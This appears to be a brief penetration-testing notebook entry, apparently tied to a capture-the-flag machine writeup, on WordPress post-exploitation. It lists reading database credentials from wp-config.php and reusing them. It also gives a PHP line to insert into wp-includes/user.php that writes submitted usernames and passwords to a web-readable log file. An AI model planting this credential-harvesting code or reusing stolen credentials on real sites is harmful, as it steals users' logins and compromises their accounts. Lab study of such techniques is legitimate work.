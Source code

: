 Things to look for:
- Credentials of the mysql datbases in the __wp-config.php__ in order to later on, make use of that credentials in other users or run the command `mysql -u {USER} -p` and enter the password obtained to list all the data from the database
- Edit the file in `{wp-dir}/wp-includes/user.php` in order to, if a script makes use of an autologin or smth similar, add some extra code to leak the credentials. A practical example could be the machine [[Aragog - Writeup]]. The code to exploit it is `file_put_contents("/var/www/html/dev_wiki/log.txt", $_POST['log'] . " : " . $_POST['pwd'], FILE_APPEND)` in the verification part of the code (Almost at the beggining of the file).